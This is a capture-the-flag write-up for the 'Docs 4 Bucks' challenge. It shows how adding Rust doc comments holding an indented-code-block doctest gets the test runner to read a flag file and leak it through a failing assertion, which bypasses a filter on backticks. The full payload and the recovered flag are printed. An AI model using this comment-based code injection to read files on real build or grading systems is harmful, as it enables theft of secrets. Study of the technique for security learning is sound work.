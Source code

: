 # Docs 4 Bucks &mdash; Solution

The challenge tells us to connect to `0.cloud.chals.io 32265`, let's see what
happens.

![Alive Plot](img/connection.png)

Ok, let's base64 decode the supposed `flag-checker` library:

```rust
use std::{
    fs::File,
    io::Read,
};

struct FlagChecker {
    path_to_flag: String,
}

impl FlagChecker {
    #[allow(dead_code)]
    pub fn new(path_to_flag: String) -> Self {
        Self { path_to_flag }
    }

    #[allow(dead_code)]
    pub fn check(self) -> bool {
        let mut file_handle = File::open(self.path_to_flag).expect("Flag file not found!");
        let mut flag = String::new();

        file_handle
            .read_to_string(&mut flag)
            .expect("Can't read file");

        return flag.starts_with("TBTL{") && flag.ends_with("}\n");
    }
}

#[cfg(test)]
mod tests {
    use super::*;

    const PATH_TO_FLAG: &str = "resources/flag.txt";

    #[test]
    fn check_flag() {
        let flag_checker = FlagChecker::new(PATH_TO_FLAG.to_string());
        assert!(flag_checker.check());
    }
}
```

Cool, looks like we got a simple piece of [Rust](https://www.rust-lang.org/)
code that should be able to read the flag and check that it's wrapped inside
`TBTL{}`.  The code reveals to us that the flag is stored at
`resources/flag.txt`.

The challenge tells us to document this code and send it back. Let's see what
happens when we send back exactly the same code we've received.

![Same Code Payload](img/same_code.png)

Ah, the test suite is going to be run and we will see its output. We probably
need to use this in order to get to the flag.

The challenge tells us the following rules:
  1. Don't delete or change any existing line of code!
  2. You may only add documentation (lines starting with '//').
  3. Hacking is futile, we have world-class protection in place.

Indeed, reasonable-yet-naive approaches will simply be met with:

```text
H4cking attempt detected...
No $$$ for you!!
```

These include things such as:
  * Changing the source code so that the flag is outputted on `stdout`
  * Changing the test so it dumps the flag on `stdout`
  * Adding a new test
  * etc.

Basically, it looks like we are only allowed to add comments. Could it be
possible that you can somehow execute commented code?

Absolutely! One of Rust's great features is that you are able to write
so-called [Documentation tests (or
doctests)](https://doc.rust-lang.org/rustdoc/write-documentation/documentation-tests.html).
Looks like we just need to add a bit of rustdoc containing a doctest that dumps
the flag, and we're good to go...

Let's "document" the public `check` function as:

```rust
    #[allow(dead_code)]
    /// Nothing to see here ;)
    ///
    /// ```
    /// use std::fs::File;
    /// use std::io::Read;
    /// let mut file_handle = File::open("resources/flag.txt".to_string()).expect("Flag file not found!");
    /// let mut flag = String::new();
    ///
    /// file_handle
    ///     .read_to_string(&mut flag)
    ///     .expect("Can't read file");
    ///
    /// assert!(false, "{}", flag);
    /// ```
    pub fn check(self) -> bool {
        let mut file_handle = File::open(self.path_to_flag).expect("Flag file not found!");
        let mut flag = String::new();

        file_handle
            .read_to_string(&mut flag)
            .expect("Can't read file");

        return flag.starts_with("TBTL{") && flag.ends_with("}\n");
    }
```

We submit the payload, and...

```text
H4cking attempt detected...
No $$$ for you!!
```

Darn it, looks like there are still some protections in place. After a few
trials you should easily be able to deduce that comments containing the
backtick characters are immediately discarded.

Digging a bit deeper through the Rust documentation, we realize that rustdoc is
actually valid markdown, and code blocks are by default executed as doctests.

How can you specify a code block in markdown? 

Again, digging through markdown documentation reveals [Indented Code
Blocks](https://spec.commonmark.org/0.30/#indented-code-blocks), and [Fenced
Code Blocks](https://spec.commonmark.org/0.30/#fenced-code-blocks). Backticks
are one way of constructing fenced code blocks, but you can construct them
using tildes (`~`) as well.

Let's construct a payload using indented code blocks:

```rust
use std::{
    fs::File,
    io::Read,
};

struct FlagChecker {
    path_to_flag: String,
}

impl FlagChecker {
    #[allow(dead_code)]
    pub fn new(path_to_flag: String) -> Self {
        Self { path_to_flag }
    }

    #[allow(dead_code)]
    /// Hack
    ///
    ///     use std::fs::File;
    ///     use std::io::Read;
    ///     let mut file_handle = File::open("resources/flag.txt".to_string()).expect("Flag file not found!");
    ///     let mut flag = String::new();
    ///
    ///     file_handle
    ///           .read_to_string(&mut flag)
    ///           .expect("Can't read file");
    ///
    ///     assert!(false, "{}", flag);
    pub fn check(self) -> bool {
        let mut file_handle = File::open(self.path_to_flag).expect("Flag file not found!");
        let mut flag = String::new();

        file_handle
            .read_to_string(&mut flag)
            .expect("Can't read file");

        return flag.starts_with("TBTL{") && flag.ends_with("}\n");
    }
}

#[cfg(test)]
mod tests {
    use super::*;

    const PATH_TO_FLAG: &str = "resources/flag.txt";

    #[test]
    fn check_flag() {
        let flag_checker = FlagChecker::new(PATH_TO_FLAG.to_string());
        assert!(flag_checker.check());
    }
}
```

Encoding this as base64 gets and sending to the server gets us:

![Win](img/solved.png)

There you go, the flag is
`TBTL{Ind3n73d_C0d3_bl0ck5_4r3_3ggz3cu7ted_A5_D0c_7e5ts}` (you could have
solved using tildes as well).

**Embarrassing moment:** The challenge author stumbled upon this fact by
accident, and [thought it was a bug in
Rust](https://github.com/rust-lang/rust/issues/107994).
